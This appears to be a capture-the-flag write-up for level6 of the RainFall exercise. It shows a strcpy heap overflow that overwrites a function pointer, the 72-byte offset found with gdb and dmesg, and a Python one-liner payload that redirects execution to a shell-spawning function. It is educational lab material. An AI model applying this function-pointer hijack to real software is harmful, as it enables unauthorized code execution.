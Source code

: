 ### Brief
The program contain a `main`, `n` and `m` functions.
The `main` contain two heap buffer and use a `strcpy` of the first argument on the first buffer.
Then it calls the function contained on the second buffer.
The `n` function open a new shell.
The `m` function print "Nope".

### Exploit
The idea is to overflow the first buffer when `strcpy` is called.
Our first argument will be copied until it finds a `\0` so we can overflow the first buffer.

So we just have to use the pattern tools to get the offset required to overwrite the called function
```bash
level6@RainFall:~$ ./level6 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
level6@RainFall:~$ dmesg
...
[10628.828880] level6[9475]: segfault at 41346341 ip 41346341 sp bffff6cc error 14
```
The offset is `72`

```bash
level6@RainFall:~$ gdb level6
(gdb) info functions
...
0x08048454  n
...
```
The address of the `n` function is `0x08048454`

### Get access

```bash
./level6 `python -c "print('A'*72 + '\x54\x84\x04\x08')"`
```